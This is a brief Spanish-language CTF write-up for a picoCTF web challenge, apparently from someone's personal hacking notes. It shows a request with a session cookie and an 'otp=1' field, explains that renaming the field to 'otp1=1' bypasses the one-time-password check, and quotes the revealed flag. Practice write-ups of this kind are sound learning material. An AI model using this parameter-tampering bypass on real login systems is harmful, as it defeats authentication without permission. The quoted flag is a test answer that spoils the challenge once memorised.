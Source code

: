 #notas_hacking #web
# Reto
## Descripción
Try [here](http://titan.picoctf.net:54415/) to find the flag
## Solución

```bash
Cookie: session=.eJw9jEsKAjEQBe-StYvE_L1MaKe7UZxJhnwQEe9uhMHdq4J6b7Hc-0tcRBMnsbTKqZcH5SmsRsfgQ0RQVjkwBpWNUpqgCWPwHpgDspsdj3VNGTY6fkrf53JaRXmeuENrz1JxOvXDW8mU8tiuVA81GtV___kCrHUr3A.aOH6Ww.hNeChYdMahi4DISui_8zp6U7hko
Connection: keep-alive

otp=1
```
cambio `otp=1` para que falle a `otp1=1`
`Welcome, s you sucessfully bypassed the OTP request. Your Flag: picoCTF{#0TP_Bypvss_SuCc3$S_b3fa4f1a}`
## Notas

## Referencias
